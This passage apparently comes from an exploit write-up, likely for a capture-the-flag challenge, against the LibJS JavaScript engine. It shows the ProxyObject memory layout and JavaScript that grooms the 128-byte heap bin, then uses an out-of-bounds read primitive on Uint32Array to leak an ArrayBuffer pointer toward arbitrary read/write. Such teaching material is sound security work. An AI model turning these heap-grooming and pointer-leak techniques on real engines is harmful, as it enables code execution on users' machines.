I changed strategy and looked for objects which would be allocated inside the 128-byte-bin.
A particularly interesting one is the `ProxyObject`:
```cpp
// pahole -C 'ProxyObject' libjs.so
class ProxyObject : public FunctionObject {
public:

  /* class FunctionObject      <ancestor>; */      /*     0     80 */

  /* --- cacheline 1 boundary (64 bytes) was 16 bytes ago --- */
  class Object &             m_target;             /*    80     4 */
  class Object &             m_handler;            /*    84     4 */
  bool                       m_is_revoked;         /*    88     1 */
  /* vtable has 19 entries: {
     [3] = class_name((null)),
     [26] = call((null)),
     [27] = construct((null)),
     [28] = name((null)),
     [29] = create_environment((null)),
     [6] = internal_get_prototype_of((null)),
     [7] = internal_set_prototype_of((null)),
     [8] = internal_is_extensible((null)),
     [9] = internal_prevent_extensions((null)),
     [10] = internal_get_own_property((null)),
     [11] = internal_define_own_property((null)),
     [12] = internal_has_property((null)),
     [13] = internal_get((null)),
     [14] = internal_set((null)),
     [15] = internal_delete((null)),
     [16] = internal_own_property_keys((null)),
     [5] = visit_edges((null)),
     [17] = is_function((null)),
     [21] = is_proxy_object((null)),
  } */
  /* size: 92, cachelines: 2, members: 4 */
  /* sum members: 9, holes: 1, sum holes: 80 */
  /* padding: 3 */
  /* last cacheline: 28 bytes */
} __attribute__((__aligned__(4)));
```

Specifically the members `m_target` and `m_handler` could be used to leak pointers to our `ArrayBuffer` by initializing a new `ProxyObject` like this:

```js
var buf = ArrayBuffer(0);
var proxy = new Proxy(buf, {});
```

With a few little extras and `Uint32Array`s in order to actually use the `oob()` we will arrive at arbitrary read / write with the following:
```js
var buf = new ArrayBuffer(0);

var a1 = new Uint32Array(0);
var a2 = new Uint32Array(0);

// allocated by the 128-byte allocator, just like the backing ArrayBuffer s of the Uint32Array s
// and it has these nice m_target / m_handler members which are very useful to leak addresses
var p = new Proxy(buf, {});

// each bin has size 128. We start at bin+32 (ArrayBuffer::m_buffer)
// first skip rest of a1, then skip a2. We want Proxy::m_target which is at offset +80
// we divide by 4 because sizeof(Uint32) == 4
var m_target = a1.oob((128 - 32 + 128 + 80) / 4)
console.log("Proxy::m_target =", m_target.toString(16))
```